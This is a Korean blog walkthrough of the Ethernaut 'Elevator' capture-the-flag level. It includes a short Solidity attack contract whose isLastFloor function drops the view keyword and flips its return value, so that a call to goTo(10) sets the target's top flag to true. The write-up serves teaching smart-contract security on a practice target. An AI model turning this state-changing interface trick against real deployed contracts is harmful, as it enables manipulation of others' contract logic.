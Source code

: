 문제 해설에 들어가기 전,  이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Elevator Problem

이번 문제의 힌트를 보아도 잘 감이 오지 않는다.

 - 때때로 솔리디티는 약속을 잘 지키지 않는다.
 - 이 엘리베이터가 빌딩에서 사용되길 기대한다.



나는 이 elevator 문제를 한참동안 들여다 봐도 무엇이 잘못 되었는지, 찾지 못햇다. 우선 문제 주소를 remix에 넣고 컨트랙트 주소를 불러오자! 이때, 인터페이스는 배포가 불가능하니 꼭 **셀렉트를 Elevator**로 바꾸고 At Address를 진행하자. 처음에 문제로 출제된 Elevator 주소를 불러와 top함수를 호출하면 불값이 false로 되어 있다. 

https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/elevator01.png?raw=true

문제에서, 이 엘리베이터는 *"너의 빌딩에 꼭대기에 도달할수 없는게 맞지?"* 라고 하는 것을 보아 top을 true 값으로 바꾸면 문제를 통과 할 수 있다.



### ElevatorAttack.sol 

```javascript
pragma solidity ^0.4.18;

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    Elevator elevator = Elevator(_victim);
    elevator.goTo(10);
  }
}
```

view 키워드가 있는 인터페이스와 비슷하게 isLastFloor 함수를 구현했지만, view 키워드를 적지 않았다. 원래 view는 아래와 같은 성격을 가지고 있다.

> 상태지정자 view : Data접근에 관하여 오로지 읽을 수 만 있고 상태 변경이 불가하다.

분명 처음 Elevator 컨트랙트를 설계한 배포자는 isLastFloor의 불린값이 바뀌지 않는 것으로 예상 했을 것이다.

그러나, 악의적인 공격자가 정작 함수를 구현할때 view키워드를 제외하고 Elevator 컨트랙트의 `goTo`함수에 10을 넣어 로직을 통과하게 되면 결과적으로 top 의 상태가 바뀌게 된다.



이후 이더넛의 콘솔창에서 await contract.top()를 치면 true 값으로 바뀐 것을 확인 할 수 있고, 다음 문제로 넘어갈 수 있다. 사실 이번 문제는 나도 몇일을 고민해도 풀지 못해 구글링을 하여 도움을 받았다.

문제 출제자는 view에 의존하지 말고 **modifier**를 활용하여 더 안전한 코드를 작성하라는 메시지를 주고 있다. 또한 인터페이스를 상속 받을때는 항상 조심해야한다.



그럼, 다음번에는 12단계 Privacy에서 만나요!
